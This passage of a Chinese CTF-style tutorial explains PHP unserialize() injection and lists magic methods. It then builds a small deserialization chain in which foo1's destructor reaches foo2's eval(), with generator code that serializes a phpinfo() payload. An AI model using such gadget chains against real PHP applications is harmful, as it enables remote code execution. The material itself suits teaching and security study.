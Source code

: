 `O:4:"test":1:{s:1:"a";s:5:"12345";}` 是我们序列化的值，然后`unserialize($_GET['id']);`传入我们改变的值 `O:4:"test":1:{s:1:"a";s:3:"404";}` 成功打印了我们的改变的值，因为反序列化我们可以控制类属性且这个过程会触发这些能够触发的魔术方法。

这里网上可以找到一些魔术方法,当然还有些可以绕过具体大家搜索一下我这里就不细写了，具体情况具体分析，反序列化难一点的还是需要很大的耐心才能完成。

```
__wakeup() //使用unserialize时触发
__sleep() //使用serialize时触发
__destruct() //对象被销毁时触发
__call() //在对象上下文中调用不可访问的方法时触发
__callStatic() //在静态上下文中调用不可访问的方法时触发
__get() //用于从不可访问的属性读取数据
__set() //用于将数据写入不可访问的属性
__isset() //在不可访问的属性上调用isset()或empty()触发
__unset() //在不可访问的属性上使用unset()时触发
__toString() //把类当作字符串使用时触发
__invoke() //当脚本尝试将对象调用为函数时触发

```


# 0x02 简单的一道题

下面我改了写一道简单的CTF，看看怎么利用它。

```
<?php

class foo1{
    public $varr;
    function __destruct(){
        $this->varr->evaltest();
    }
}

class foo2{
    public $str;
    function evaltest(){
        eval($this->str);
    }
}
?>

```
我们看到在foo2中`evaltest()`函数中存在eval，而foo1中调用了函数`evaltest()`，我们就想可不可以让foo1调用foo2中的`evaltest()`函数顺边还把它的`$str`中的值改写了。

```
<?php
class foo1{
    public $varr;
    function __construct(){
        $this->varr = new foo2();
    }
}

class foo2{
    public $str;
    function __construct(){
        $this->str = 'phpinfo();';
  }
}

$obj = new foo1();
echo serialize($obj); 
?>
```